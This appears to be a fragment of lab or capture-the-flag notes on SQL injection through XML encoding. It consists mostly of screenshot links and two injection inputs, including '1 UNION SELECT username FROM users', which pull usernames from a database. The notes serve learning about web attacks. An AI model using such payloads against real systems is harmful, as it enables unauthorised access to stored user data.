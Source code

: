 now you can try XML encoding

1 UNION

![](assets/Pasted%20image%2020251016151408.png)

1 UNION SELECT username FROM users

![](assets/Pasted%20image%2020251016151942.png)


![](assets/Pasted%20image%2020251016152049.png)






